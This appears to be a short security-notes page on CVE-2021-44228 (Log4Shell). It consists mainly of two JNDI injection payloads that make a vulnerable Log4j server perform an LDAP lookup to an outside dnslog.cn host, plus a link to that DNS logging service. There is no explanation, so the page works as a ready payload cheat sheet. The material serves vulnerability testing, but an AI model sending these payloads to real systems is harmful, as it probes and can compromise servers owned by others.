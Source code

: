 # CVE-2021-44228

<figure><img src="../../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

```
${jndi:ldap://z601l4.dnslog.cn:443/o=tomcat}

${jndi:ldap://z601l4.dnslog.cn:1389/o=tomcat}
```

[http://dnslog.cn/](http://dnslog.cn/)

z601l4.dnslog.cn

